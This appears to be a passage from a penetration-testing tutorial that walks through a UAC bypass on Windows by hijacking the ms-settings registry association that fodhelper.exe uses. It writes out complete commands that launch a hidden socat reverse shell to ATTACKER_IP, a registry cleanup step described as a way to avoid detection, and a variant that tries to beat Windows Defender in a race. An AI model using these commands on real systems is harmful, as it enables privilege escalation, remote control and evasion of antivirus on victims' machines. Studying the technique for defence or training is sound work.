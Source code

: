 Going back to Fodhelper, we now see that it's trying to open a file under the ms-settings ProgID. By creating an association for the ProgID in the current user's context under HKCU, we will override the default system-wide association and control which command is used to open the file. Since Fodhelper is an `autoElevate` executable, any subprocess it spawns will inherit its High IL.

---

To exploit it, we set the required registry values to associate the ms-settings class to a reverse shell. We can use the following commands to set the required registry keys.
```
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:ATTACKER_IP:4444 EXEC:cmd.exe,pipes"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f
```
Note that we need to create an empty value called `DelegateExecute` for this class association to take effect. If this registry value is not present, the operating system will ignore the command and use the system-wide class association instead.
Finally we proceed to execute `fodhelper.exe` which in turn will trigger the execution of our reverse shell. The received shell runs with High IL, allowing us to bypass the UAC.

## Clearing suspicion
As a result of executing this exploit, some artefact were created on the target system in the form of registry keys. To avoid detection, we need to clean up after ourselves with the following command
```powershell
reg delete HKCU\Software\Classes\ms-settings\ /f
```


# Improving the Fodhelper Exploit to Bypass Defender
If we tried the same exploit as before with Defender enabled, it will stop us and our command from trying to change the default value to gain a shell. Although by now it would seem that our exploit wouldn't work against Defender, if we try to run the same commands but with a slight modification
```
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:ATTACKER_IP:4444 EXEC:cmd.exe,pipes"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY% HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
```
By adding a quick query to the offending registry value right after setting it to the command required for our reverse shell, the query outputs our command intact. We still get alerted by Windows Defender, and a second later the offending registry value gets deleted as expected. It appears it takes a moment for Windows Defender to take action on our exploit. So if we modify the exploit to run `fodhelper.exe` immediately after setting the registry value.
```
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:ATTACKER_IP:4444 EXEC:cmd.exe,pipes"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```
Depending on our luck, Fodhelper might execute before the AV kicks in, giving us back a reverse shell. If for some reason it does not work for us, keep in mind that this method is unreliable as it depends on a race between the AV and our payload executing first.
